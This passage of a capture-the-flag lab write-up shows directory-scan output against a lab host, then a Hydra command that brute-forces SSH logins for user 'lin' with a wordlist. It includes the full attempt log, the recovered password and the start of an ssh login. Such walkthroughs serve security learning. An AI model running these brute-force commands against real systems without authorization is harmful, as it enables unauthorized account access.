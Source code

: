 ```bash
[16:11:12] 403 -  275B  - /.htaccessBAK
[16:11:12] 403 -  275B  - /.htaccessOLD2
[16:11:12] 403 -  275B  - /.htm
[16:11:12] 403 -  275B  - /.html
[16:11:13] 403 -  275B  - /.httr-oauth
[16:11:13] 403 -  275B  - /.htpasswds
[16:11:13] 403 -  275B  - /.htpasswd_test
[16:13:28] 200 -  455B  - /images/
[16:13:28] 301 -  309B  - /images  ->  http://10.10.67.0/images/
[16:14:16] 403 -  275B  - /server-status/
[16:14:16] 403 -  275B  - /server-status

Task Completed
```
### Nothing much useful

## 4. Let Brute Ssh 
### As we have ```lin``` user and password wordlist so let brute ssh using Hydra
```bash
┌──(death㉿esther)-[~/Lab-CTF/Bugbounty-hunter]
└─$ hydra -l lin -P locks.txt ssh://10.10.67.0 -V     
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-04-13 16:19:36
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.67.0:22/
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "rEddrAGON" - 1 of 26 [child 0] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "ReDdr4g0nSynd!cat3" - 2 of 26 [child 1] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "Dr@gOn$yn9icat3" - 3 of 26 [child 2] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "R3DDr46ONSYndIC@Te" - 4 of 26 [child 3] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "ReddRA60N" - 5 of 26 [child 4] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "R3dDrag0nSynd1c4te" - 6 of 26 [child 5] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "dRa6oN5YNDiCATE" - 7 of 26 [child 6] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "ReDDR4g0n5ynDIc4te" - 8 of 26 [child 7] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "R3Dr4gOn2044" - 9 of 26 [child 8] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "RedDr4gonSynd1cat3" - 10 of 26 [child 9] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "R3dDRaG0Nsynd1c@T3" - 11 of 26 [child 10] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "Synd1c4teDr@g0n" - 12 of 26 [child 11] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "reddRAg0N" - 13 of 26 [child 12] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "REddRaG0N5yNdIc47e" - 14 of 26 [child 13] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "Dra6oN$yndIC@t3" - 15 of 26 [child 14] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "4L1mi6H71StHeB357" - 16 of 26 [child 15] (0/0)
[22][ssh] host: 10.10.67.0   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-04-13 16:19:49
```
### We got The ssh password let Login
```bash
┌──(death㉿esther)-[~/Lab-CTF/Bugbounty-hunter]
└─$ ssh lin@10.10.67.0                                                                              
The authenticity of host '10.10.67.0 (10.10.67.0)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
```